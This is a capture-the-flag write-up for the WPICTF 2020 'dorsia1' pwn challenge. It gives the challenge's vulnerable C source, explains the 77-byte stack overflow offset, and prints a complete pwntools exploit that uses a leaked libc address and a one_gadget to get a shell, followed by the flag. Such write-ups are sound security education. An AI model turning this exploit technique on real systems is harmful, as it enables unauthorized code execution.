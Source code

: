 # dorsia1 Writeup by Srdnlen  
## Category: PWN

## Description  
http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm The
first card.

nc dorsia1.wpictf.xyz 31337 or 31338 or 31339

made by: awg

Hint: Same libc as dorsia4, but you shouldn't need the file to solve.  
Hint2: 'A' * 77

## Source Code

```C  
#include <stdio.h>  
#include <stdlib.h>

void main() {  
   char a[69];  
   printf("%p\n",system+765772);  
   fgets(a,96,stdin);  
}  
```

## Writeup  
This looks like a very typical buffer overflow challenge... However, our
exploits just didn't work. Why?

The great minds at WPICTF decided to disable stack alignment for this
challenge. We were using 88 bytes of garbage, but actually it's 77, as the
second hint suggests. 69 + 8 for rbp.

Let's use `one_gadget` on the libc (from dorsia4) and it's done.

```  
from pwn import *

p = remote('dorsia1.wpictf.xyz', 31339)  
e = ELF('./libc.so.6')

# Leak addresses  
leak = int(p.recvline(), 16)  
system = leak - 765772  
libc = system - e.sym['__libc_system']  
one_gadget = libc + 0x4f322  
padding = b'A' * 77

# Info  
print('Libc: ', hex(libc))  
print('System: ', hex(system))

# Send the one_gadget and get flag ez  
p.sendline(padding + p64(one_gadget))  
p.interactive()  
```

## Flag  
`WPI{FEED_ME_A_STRAY_CAT}`  

Original writeup (https://github.com/srdnlen/ctf-
writeups/tree/master/wpictf20/dorsia1).
